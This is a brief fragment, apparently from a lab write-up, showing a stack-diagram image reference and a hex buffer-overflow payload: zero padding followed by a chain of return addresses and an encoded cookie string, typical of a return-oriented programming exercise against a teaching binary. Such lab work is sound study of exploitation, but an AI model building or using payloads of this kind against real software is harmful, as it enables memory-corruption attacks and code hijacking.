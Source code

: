    ![](.\assets\栈图.png)

   

4. payload

   `00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00` + `06 1a 40 00 00 00 00 00` + `a2 19 40 00 00 00 00 00` + `ab 19 40 00 00 00 00 00` + `48 00 00 00 00 00 00 00` + `dd 19 40 00 00 00 00 00` + `69 1a 40 00 00 00 00 00` + `13 1a 40 00 00 00 00 00` + `d6 19 40 00 00 00 00 00` + `a2 19 40 00 00 00 00 00` + `fa 18 40 00 00 00 00 00` + `35 39 62 39 39 37 66 61`
